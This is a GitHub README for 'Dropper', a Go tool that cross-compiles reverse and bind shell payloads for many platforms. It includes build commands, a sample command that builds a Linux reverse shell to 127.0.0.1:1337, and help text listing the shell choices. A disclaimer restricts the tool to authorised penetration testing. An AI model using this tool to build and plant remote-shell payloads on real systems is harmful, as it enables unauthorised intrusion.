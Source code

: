 <h2>HEY! The current installment of Dropper 2.0 can be found here: https://github.com/im4x5yn74x/dropper2</h2>

Dropper

Cross compiling reverse/bind payload generator written in Go.
 
In order to run dropper, you must already have your GOPATH configured properly.
For more information on setting up your GOPATH and Golang environment, please visit the golang wiki on GitHub: 

https://github.com/golang/go/wiki/SettingGOPATH

If everything is all set, navigate to your GOPATH on your system run clone the repo using `git` or `go`.

<code>git clone https://github.com/im4x5yn74x/dropper.git</code>

<code>go get github.com/im4x5yn74x/dropper</code>

Once cloned, change to the dropper folder and give it a test run.

<code>cd dropper/;</code><br>
<code>go run dropper.go</code>

+...|Choose an OS|...+
<br>
&#x2d; windows<br>
&#x2d; linux<br>
&#x2d; freebsd<br>
&#x2d; nacl<br>
&#x2d; netbsd<br>
&#x2d; openbsd<br>
&#x2d; plan9<br>
&#x2d; solaris<br>
&#x2d; dragonfly<br>
&#x2d; darwin<br>
&#x2d; android<br>

&#x3e;_: 

Feel free to compile it and provide arguments to quickly build your payloads. 

<code>go build dropper.go</code><br>
<code>./dropper -a 386 -o potato -p linux -l 127.0.0.1:1337 -s /bin/sh -t reverse</code><br>
<code>./dropper -h</code>
<pre>
Usage of ./dropper:
  -a string
	Architecture: 386, amd64, amd64p32, arm, arm64, ppc64, ppc64le, mips, mipsle, mips64, mips64le, s390x, sparc64
  -l string
	Listening host: <listening ip:port>
  -o string
	Output filename: <anything goes>
  -p string
	Operating System: windows, linux, freebsd, nacl, netbsd, openbsd, plan9, solaris, dragonfly, darwin, android
  -s string
	Shell type: C:\Windows\System32\cmd.exe, C:\Windows\SYSWOW64\WindowsPowerShell\v1.0\powershell.exe, /bin/sh, /system/bin/sh, /bin/busybox, bypass
  -t string
	Payload type: bind/reverse
</pre>
 
<h3>Disclaimer</h3>
This tool is intended for Penetration Testers, Security Researchers and Red Teamers alike. <b>DO NOT USE</b> this tool for ILLEGAL purposes or <b>WITHOUT</b> the <b><u>CONSENT</u></b> from the parties involved while agreed upon by LEGAL DOCUMENTATION or PERMISSIVE ACCESS for <u>security consultation</u> or <u>research purposes.</u> I, hereby relinquish <b><u>ALL</u></b> responsiblity for any illegal use of this tool or <b><u>ANY</u></b> binary payloads subsequently generated by the tool as discribed. <b>You have been warned.</b>
